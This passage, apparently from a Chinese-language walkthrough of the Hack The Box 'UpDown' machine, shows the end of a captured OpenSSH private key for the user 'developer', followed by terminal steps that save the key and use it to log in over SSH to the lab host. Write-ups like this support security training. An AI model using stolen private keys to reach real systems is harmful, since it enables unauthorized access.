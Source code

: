         RtUPADO3MPlUfI0g8qxqWn1VSiQBlUFpw54GIcuSoD0BronWdjicUP0fzVecjkEQ0hp7gu
        gNyFi4s68suDESmL5FCOWUuklrpkNENk7jzjhlzs3gdfU0IRCVpfmiT7LDGwX9YLfsVXtJ
        mtpd5SG55TJuGJqXCyeM+U0DBdxsT5AAAAwQDDfs/CULeQUO+2Ij9rWAlKaTEKLkmZjSqB
        2d9yJVHHzGPe1DZfRu0nYYonz5bfqoAh2GnYwvIp0h3nzzQo2Svv3/ugRCQwGoFP1zs1aa
        ZSESqGN9EfOnUqvQa317rHnO3moDWTnYDbynVJuiQHlDaSCyf+uaZoCMINSG5IOC/4Sj0v
        3zga8EzubgwnpU7r9hN2jWboCCIOeDtvXFv08KT8pFDCCA+sMa5uoWQlBqmsOWCLvtaOWe
        N4jA+ppn1+3e0AAAASZGV2ZWxvcGVyQHNpdGVpc3VwAQ==
        -----END OPENSSH PRIVATE KEY-----
        ```
    
+ 本地处理：

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/UpDown]
    └─$ vim id_rsa

    ┌──(kali㉿kali)-[~/桌面/HTB/UpDown]
    └─$ chmod 600 id_rsa

    ┌──(kali㉿kali)-[~/桌面/HTB/UpDown]
    └─$ ls -liah | grep id_rsa
    3979211 -rw-------  1 kali kali 2.6K  2月19日 17:14 id_rsa

    ┌──(kali㉿kali)-[~/桌面/HTB/UpDown]
    └─$ ssh -i id_rsa developer@10.10.11.177              
    Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

    System information as of Mon Feb 19 13:22:20 UTC 2024

    System load:           0.0
    Usage of /:            49.9% of 2.84GB
    Memory usage:          25%
    Swap usage:            0%
    Processes:             241
    Users logged in:       0
    IPv4 address for eth0: 10.10.11.177
    IPv6 address for eth0: dead:beef::250:56ff:feb9:9a71

    => There are 2 zombie processes.


    8 updates can be applied immediately.
    8 of these updates are standard security updates.
    To see these additional updates run: apt list --upgradable


    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


    Last login: Mon Feb 19 09:15:53 2024 from 10.10.16.5
    developer@updown:~$ whoami
    developer
    developer@updown:~$ pwd
    /home/developer
    developer@updown:~$ id
    uid=1002(developer) gid=1002(developer) groups=1002(developer)
    ```
